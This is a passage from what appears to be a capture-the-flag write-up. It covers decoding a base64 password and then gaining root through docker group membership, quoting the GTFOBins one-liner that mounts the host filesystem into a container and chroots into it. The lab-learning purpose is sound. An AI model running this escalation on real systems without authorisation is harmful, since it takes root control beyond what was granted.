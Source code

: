 
If we do 

> echo "\<base64 encoded pass>" | base64 -d 

We get pass.


### __Fifth Stage : Anurodh to root__

After we run **id**  command we get 

![](images/anurodh.png)


So I searched __"docker group privilege escalation"__ and found a [GTFObins](https://gtfobins.github.io/gtfobins/docker/) page .   


> docker run -v /:/mnt --rm -it alpine chroot /mnt sh


Hence if we run the command we get root.


![](images/root.png)




